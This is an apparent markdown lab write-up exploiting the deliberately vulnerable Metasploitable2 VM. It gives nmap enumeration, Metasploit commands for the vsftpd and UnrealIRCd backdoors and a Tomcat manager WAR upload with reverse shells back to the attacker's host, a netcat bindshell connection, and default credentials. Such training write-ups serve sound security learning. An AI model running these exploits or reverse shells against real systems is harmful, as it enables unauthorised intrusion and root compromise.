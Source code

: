 
# 💥 Metasploitable2 - Full Exploitation Writeup

## 📌 Target Info
- **IP:** 192.168.11.252
- **OS:** Linux (Ubuntu)
- **Method:** Internal lab environment (VirtualBox, bridged adapter)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

**Command:**
```bash
nmap -sC -sV -oN metasploitable-scan.txt 192.168.11.252
```

**Key Findings:**
- `FTP (21)` — vsftpd 2.3.4 (backdoored)
- `Telnet (23)`, `SSH (22)`
- `Apache (80, 8180)`, `Tomcat Manager`
- `SMB (139, 445)`, `MySQL (3306)`, `PostgreSQL (5432)`
- `IRC (6667)` — UnrealIRCd (backdoor)
- `Bindshell (1524)` — confirmed open and usable

---

## 💣 Exploitation

### ✅ 1. FTP — vsftpd 2.3.4 Backdoor

**Tool:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.11.252
run
```

**Result:** Remote root shell obtained instantly.

---

### ✅ 2. Port 1524 — Bindshell

**Command:**
```bash
nc 192.168.11.252 1524
```

**Result:** Immediate root shell — no authentication needed.

---

### ✅ 3. IRC — UnrealIRCd Backdoor

**Tool:**
```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.11.252
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.10.172 (My kali IP)
run
```

**Result:** Reverse shell returned as `root`.

---

### ✅ 4. Tomcat Manager (8180)

**Accessed:** `http://192.168.11.252:8180/manager/html`

**Creds Used:** `tomcat:tomcat` (default)

**Tool:**
```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOST 192.168.11.252
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST 192.168.10.172 (My kali IP)
run
```

**Result:** Reverse WAR shell deployed successfully.

---

## 🧪 Additional Entry Points Identified (Not Exploited)

- **SMB (139/445)** — Samba 3.0.20
- **MySQL (3306)** — MySQL 5.0.51a (no brute-force attempted)
- **PostgreSQL (5432)** — Version 8.3.7
- **Apache Web (Port 80)** — Potential hidden apps like DVWA, Mutillidae, phpMyAdmin
- **VNC (5900)** — Protocol 3.3 (not tested for null auth)
- **NFS / RPC Services** — Mountd/nlockmgr (seen in `rpcinfo`)

---

## 🔐 Credentials Used

- FTP: `anonymous`
- Tomcat: `tomcat:tomcat`

---

## 🧠 Lessons Learned

- Proper version enumeration reveals multiple paths to root
- Classic CVEs like vsftpd/UnrealIRCd still work in vulnerable setups
- Multiple services = multiple shells = total compromise
- Enumeration is more powerful than brute force

---

## 🧰 Tools Used

- `nmap`
- `msfconsole`
- `nc`
- `ftp`

---

## ✅ Outcome

The target system was fully compromised with multiple confirmed root-level access vectors. Several additional vulnerable services were discovered, representing additional attack surface.

---

**Author:** Esteban BREA HELL  
**GitHub:** [github.com/EstebanBreaHell](https://github.com/EstebanBreaHell)
